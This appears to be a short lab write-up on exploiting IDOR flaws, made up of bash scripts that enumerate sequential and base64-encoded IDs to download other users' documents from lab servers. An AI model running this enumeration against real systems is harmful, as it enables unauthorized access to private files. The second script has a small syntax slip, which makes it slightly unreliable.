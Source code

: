 
## POST
### Soluction

```bash

#!/bin/bash

url="http://94.237.54.176:47463"

for i in {1..20}; do
    echo "Fetching: $url/documents.php"
    response=$(curl -s -X POST -d "uid=$i" "$url/documents.php")
    echo "Response received for UID $i:"
    echo "$response" 

    for link in $(echo "$response" | grep -oP "\/documents.*?.txt"); do
        echo "Found link: $url$link"
        wget -q "$url$link"
    done
done

```

# Bypassing Encoded References

```bash
for i in {1..20}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

```

## GET
## soluction

```bash

#!/bin/bash

for i in {1..20}; do
    hash=$(echo -n $i | base64 )
    url="http://94.237.63.201:42092/download.php?contract=$hash"
    echo "Fetching: $url"
    response= $(curl -sOJ -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" "$url")
    echo "$response"
done

cat *pdf

```
